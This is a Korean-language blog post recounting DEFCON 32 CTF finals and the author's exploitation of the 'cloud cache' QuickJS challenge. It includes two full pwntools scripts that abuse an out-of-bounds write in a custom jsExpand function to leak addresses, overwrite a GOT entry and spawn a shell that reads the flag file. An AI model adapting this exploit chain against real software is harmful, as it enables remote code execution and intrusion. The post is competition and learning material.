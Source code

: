 ```yaml
---
title: "DEFCON 32"
dateString: October 2024
draft: false
tags: ["DEFCON CTF"]
weight: 30
date: 2024-08-15
categories: ["CTF"]
# cover:
    # image: ""
---
```

![](/blog/DEFCON_32_cloud_cache-Quickjs_exploitation/4779bf4917b80cd4eeccc66c064b8c41.jpg)
컨퍼런스 티켓도 구매했었는데 대회랑 겹쳐서 전날에 구경밖에 못했다.
![](/blog/DEFCON_32_cloud_cache-Quickjs_exploitation/1c63c55b3cc3452d5a4dd47bd1d7752d.jpg)
숙소 1층에서 DEFCON 셔틀이 있어서 그거 타고 라스베가스 컨벤션 센터로 갈 수 있었다.
1, 2일차에는 여러 문제들 보면서 잡다한 버그들 찾다가 상대팀 패치도 분석해보고 공격 패킷도 분석하면서 시간을 보냈다.
2일차에 마지막으로 release된 Attack & Defense 문제중에 cloud cache를 잡았다.

그날 저녁 열심히 익스플로잇 코드 두 개를 준비해서 갔지만 막상 3일차에 본선장에 가서 다른 팀들한테 쏴봤더니 둘다 동작하지 않아서 당황했다.
원래 계획과는 다르게 팀원분이 다른 취약점으로 준비하신 두 개의 익스플로잇 코드를 먼저 쏘셨다.
이대로 쪽박치는줄 알았지만 코드 수정에 성공해서 많은 팀들을 때릴 수 있었다.
exploit을 원래 자동으로 날려주는 툴이 있었는데 rate limit이 걸려있어서 사용하지 못했다.
그래서 그때부터 대회 끝날때까지 라운드마다 직접 손으로 쐈다.
첫 라운드엔 MMM 플래그도 따였었는데, 패치가 지연되어서 늦게 올라갔던건지 얼마 지나지 않아 패치되었다.
MMM 분들이 패치하자마자 일부 팀들이 백도어 위험을 감수하고 패치를 그대로 적용해버려서 대회 끝날때쯤엔 두 팀 정도를 제외하고 모두 패치되었다.
# cloud cache
유저랜드 프로그램은 quickjs 프롬프트가 나오는 방식이고 커널 드라이버가 로드되어서 같이 상호작용한다.
로컬에서 돌리려고 쌩쇼를 하고 있었는데 팀원분이 유저 프로그램에서 oob를 찾아주셨다.
그래서 oob를 통해 dos를 내고 dmesg를 조합하면 뭔가 익스를 할 수 있을것 같았다.
커널쪽 취약점도 따로 있었다고 하는데 그 부분은 다른 팀원분이 익스를 해주셨다.
## exploit with dmesg
oob dos + dmesg를 조합해서 릭을 했다.
sign extension은 안되고 -1 같은 경우 0xffffffff로 계산되기에 다음 코드는 항상 dos가 난다.
```c
p.sendline('let a = [1.1]; jsExpand(a, -1); a[-3] = 0xdeadbeef')
```
그리고 js_expand 함수 내부에서 JS_ToInt32로 두번째 인자는 검사를 하는데 첫번째 인자를 검사하지 않아 실질적으로 double을 인자로 주면 이게 주소로 인식이 된다.
```c
   ...
  else if ( (JS_ToInt32)(ctx, &new_len, argv[1].u.ptr, argv[1].tag) )
  {
    return 0LL;
  }
  else
  {
    v5 = new_len;
    v6 = *(argv->u.ptr + 4);
    *(argv->u.ptr + 8) = new_len;
    result = v5;
    *v6 = v5;
  }
  return result;
}
```
그래서 js_expand 함수 내부 로직을 통해 4 byte aaw가 가능해진다.
그런데 실질적으로 쓰기 연산 자체는 8 byte 단위여서 다른 방법을 찾기로 했다.
```python
# double array 
# element ptr | length
# heap chunk size | element 1 | element 2 ...
# --- normal oob array ---
# contraints : 0x10 aligned & oob 8bytes + type data
p.sendline('let a = [1.1]; jsExpand(a, -1); a[-3] = 0xdeadbeef')
```
이런식으로 일반 array를 쓰면 내부적으로 64bit value | type data 가 포함된 형태로 저장되었다.
그래서 실질적으로 0x10 aligned 된 쓰기만 가능했다.
읽기를 할때도 항상 tag 검사가 있어서 실질적으로 oob leak이 불가능했다.
dmesg로 quickjs.so의 base를 구할 수 있었다.
어떻게 array를 배치해도 메모리 상에서 +0x8 위치에 있는 element pointer를 덮을 수 없었다.

그러다가 Float64Array 같은 type이 지정된 array를 만들면 type 정보가 생략된다는 것을 알았다.
```python

from pwn import *
import base64
context.log_level='debug'
def exploit(ip: str, port: int) -> str | None:
    r_info = remote(ip, port)
    r_info.recvline()
    r_info.recvuntil('telnet ')
    ip, port = r_info.recvline()[:-1].split()
    port = int(port)

    p = remote(ip, port)
    p.sendline('a = [1.1, 2.2]; jsExpand(a, -1); a[-3] = 0xdeadbeef')
    p.close()
    p = remote(ip, port)
    p.sendline('dmesg()')
    while True:
        if p.recvuntil(b'Code: ', timeout=1.5) == b'':
            break
    msg = p.recvuntil(b'undefined')
    quickjs_base = int(msg[msg.find(b'RAX:'):].split()[1],16) - 0x21078
    log.success(hex(quickjs_base))
    libc_base = quickjs_base - 0x229000# - 0x23b000 # local offset
    log.success(hex(libc_base))
    libc_got = libc_base + 0x21a098
    global_ctx = int(msg[msg.find(b'RDI:'):].split()[1],16)
    log.success(hex(global_ctx))
    heap = int(msg[msg.find(b'RSI:'):].split()[1],16)
    target = heap + 0x1bf0
    log.success(hex(target))
    p.close()
    p = remote(ip, port)
    p.sendline('let memory = new ArrayBuffer(8); let view_u32 = new Uint32Array(memory); let view_f64 = new Float64Array(memory); let view_u8 = new Uint8Array(memory); function i64_to_f64(low, high) {view_u32[0] = low; view_u32[1] = high; return view_f64[0];};')
    sleep(0.5)
    p.sendline('let a = new Float64Array(4); a[0] = 1.1; a[1] = 2.2; a[2] = 3.3; jsExpand(a, -1);')
    sleep(0.5)
    p.sendline(f'let b = new Float64Array(4); b[0] = 1.1; b[1] = 2.2; b[2] = 3.3; jsExpand(b, -1); b[13] = i64_to_f64({(libc_got)&0xffffffff}, {libc_got >> 32}); b[0] = i64_to_f64({(libc_base + 0x50d70)&0xffffffff}, {libc_base >> 32}); "/bin/sh";')
    sleep(0.5)
    p.recvuntil(b'undefined')
    p.recvuntil(b'-1')
    p.recvuntil(b'\xfb')
    p.sendline('cat /fla? | base64')
    flag = base64.b64decode(p.recvline()[:-1]).decode()
    return flag

print(exploit('localhost', 9999))
```
하지만 위 방식의 익스플로잇 코드는 로컬 환경에선 동작했지만 대회장에 가서는 동작하지 않았다.
두 번째 익스플로잇처럼 수정했다면 동작했을 수 있었겠지만, 익스플로잇 수정이 완료되었을 시간엔 거의 패치가 완료되었을 것이라 생각했기에 바로 두번째 익스플로잇을 이용했다.
## exploit without dmesg
첫 번째 익스플로잇을 짜다가 발견했던 type 정보 생략을 이용해서 메모리 릭도 자체적으로 수행할 수 있을 것이라고 생각했다.
function을 정의해서 할당 관련 함수를 힙에 남기고 이를 릭해서 quickjs.so의 base를 얻을 수 있었다.
대회장에선 동작을 안해서 좀 더 안정적으로 만들기 위해 element pointer를 quickjs.so의 got로 변조해서 libc의 base를 얻도록 수정했다.
```python
from pwn import *
import base64
import struct
def exploit(ip: str, port: int) -> str | None:
    # r_info = remote(ip, port)
    # r_info.recvline()
    # r_info.recvuntil('telnet ')
    # ip, port = r_info.recvline()[:-1].split()
    # port = int(port)

    p = remote(ip, port)
    sleep(3)
    p.sendline('let memory = new ArrayBuffer(8); let view_u32 = new Uint32Array(memory); let view_f64 = new Float64Array(memory); let view_u8 = new Uint8Array(memory);')
    sleep(0.5)
    p.sendline('let a = new Float64Array(4); a[0] = 1.1; a[1] = 2.2; a[2] = 3.3; jsExpand(a, -1);')
    sleep(0.5)
    p.sendline(f'let b = new Float64Array(4); b[0] = 1.1; b[1] = 2.2; b[2] = 3.3; jsExpand(b, -1); console.log("lk:"+b[13]);')
    p.recvuntil(b'lk:')
    lk = float(p.recvline()[:-1])
    object_elemnt_ptr = struct.unpack('<Q', struct.pack('<d', lk))[0] 
    log.success(hex(object_elemnt_ptr))
    p.sendline('let f = () => {return 1;};')
    sleep(0.5)
    p.sendline(f'console.log("lk:"+b[{0x48}]);')
    p.recvuntil(b'lk:')
    lk = float(p.recvline()[:-1])
    quickjs_base = struct.unpack('<Q', struct.pack('<d', lk))[0] 
    if quickjs_base == 0:
        log.info('leak failed. retrying ...')
        sleep(0.5)
        p.sendline(f'c = console.log; console.log("lk:"+b[{0x4e}]);')
        p.recvuntil(b'lk:')
        lk = float(p.recvline()[:-1])
        quickjs_base = struct.unpack('<Q', struct.pack('<d', lk))[0] 
        if quickjs_base == 0:
            for i in range(10):
                log.info(f'trying - {i}')
                sleep(0.3)
                p.sendline(f'c = console.log; console.log("lk:"+b[{0x48 + i}]);')
                p.recvuntil(b'lk:')
                lk = float(p.recvline()[:-1])
                quickjs_base = struct.unpack('<Q', struct.pack('<d', lk))[0] 
                if quickjs_base & 0xf30 == 0xf30:
                    break
    assert quickjs_base != 0
    
    quickjs_base -= 0xff30
    quickjs_got = quickjs_base + 0xa9068 # free 
    log.success(hex(quickjs_got))
    p.close()

    p = remote(ip, port)
    sleep(3)
    p.sendline('let memory = new ArrayBuffer(8); let view_u32 = new Uint32Array(memory); let view_f64 = new Float64Array(memory); let view_u8 = new Uint8Array(memory); function i64_to_f64(low, high) {view_u32[0] = low; view_u32[1] = high; return view_f64[0];};')
    sleep(0.5)
    p.sendline('let a = new Float64Array(4); a[0] = 1.1; a[1] = 2.2; a[2] = 3.3; jsExpand(a, -1);')
    sleep(0.5)
    p.sendline(f'let b = new Float64Array(4); b[0] = 1.1; b[1] = 2.2; b[2] = 3.3; jsExpand(b, -1); b[13] = i64_to_f64({(quickjs_got)&0xffffffff}, {quickjs_got >> 32}); console.log("lk:"+b[0]);')
    sleep(0.5)# = i64_to_f64({(libc_base + 0x50d70)&0xffffffff}, {libc_base >> 32}); "/bin/sh";
    p.recvuntil(b'lk:')
    lk = float(p.recvline()[:-1])
    libc_base = struct.unpack('<Q', struct.pack('<d', lk))[0] - 0xa53e0
    log.success(hex(libc_base))
    libc_got = libc_base + 0x21a098
    p.close()

    p = remote(ip, port)
    sleep(3)
    p.sendline('let memory = new ArrayBuffer(8); let view_u32 = new Uint32Array(memory); let view_f64 = new Float64Array(memory); let view_u8 = new Uint8Array(memory); function i64_to_f64(low, high) {view_u32[0] = low; view_u32[1] = high; return view_f64[0];};')
    sleep(0.5)
    p.sendline('let a = new Float64Array(4); a[0] = 1.1; a[1] = 2.2; a[2] = 3.3; jsExpand(a, -1);')
    sleep(0.5)
    p.sendline(f'let b = new Float64Array(4); b[0] = 1.1; b[1] = 2.2; b[2] = 3.3; jsExpand(b, -1); b[13] = i64_to_f64({(libc_got)&0xffffffff}, {libc_got >> 32}); b[0] = i64_to_f64({(libc_base + 0x50d70)&0xffffffff}, {libc_base >> 32}); "/bin/sh";')
    sleep(0.5)
    p.recvuntil(b'undefined')
    p.recvuntil(b'-1')
    p.recvuntil(b'\xfb')
    # p.sendline('rev /flag')
    # p.sendline("cat /flag")
    p.interactive()
# context.log_level='debug'

import sys
(exploit(f'10.10.{sys.argv[1]}.1', int(sys.argv[2])))
```

![](/blog/DEFCON_32_cloud_cache-Quickjs_exploitation/e1984dde2de61b1ba18fea92027fde1f.png)
![](/blog/DEFCON_32_cloud_cache-Quickjs_exploitation/24e81fef68818f92515cc69b97e5d6eb.png)
이런식으로 매 라운드마다 팀원분들과 함께 열심히 다른팀에 쐈다.
이거 말고도 몇 가지 quickjs 1-day도 다 먹혔다고 하는데 시간이 없어서 1-day 익스는 짜지 못했다.  

마지막으로 팀 단체 사진.
![](/blog/DEFCON_32_cloud_cache-Quickjs_exploitation/def.png)